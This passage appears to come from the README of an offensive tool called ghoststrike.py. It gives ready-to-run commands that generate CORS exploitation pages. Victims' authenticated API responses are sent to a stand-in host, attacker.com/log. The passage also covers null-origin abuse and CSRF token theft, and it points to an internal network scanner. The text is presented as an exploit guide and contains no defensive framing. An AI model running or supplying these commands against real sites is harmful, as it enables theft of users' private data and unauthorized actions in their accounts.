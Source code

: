 **Exploit:**
```bash
python3 ghoststrike.py --generate cors-exfil \
  -t https://target.com/api/sensitive \
  -e https://attacker.com/log \
  --element-id secretData
```

**What happens:**
1. Victim visits attacker page
2. JavaScript makes authenticated request to target
3. Response data is exfiltrated to attacker server
4. Works because CORS allows arbitrary origins

### 2. CORS Null Origin Exploitation

**Vulnerability:** Server trusts `Origin: null`

**Exploit:**
```bash
python3 ghoststrike.py --generate cors-null \
  -t https://target.com/api/data \
  -e https://attacker.com/log
```

**What happens:**
1. Uses sandboxed iframe to generate null origin
2. Bypasses origin-based CORS restrictions
3. Exfiltrates authenticated data

### 3. CSRF Token Bypass

**Vulnerability:** CORS misconfiguration + CSRF protection

**Exploit:**
```bash
python3 ghoststrike.py --generate csrf-bypass \
  -t https://target.com/admin/action \
  --csrf-endpoint https://target.com/profile \
  --token-id csrf_token \
  --username attacker
```

**What happens:**
1. Extracts CSRF token via CORS
2. Uses token in state-changing request
3. Bypasses CSRF protection

### 4. Internal Network Scanning

**Vulnerability:** Wildcard CORS on internal services

**Interactive mode:**
```bash
python3 ghoststrike.py --interactive
# Select option 8: Network Scanner
```
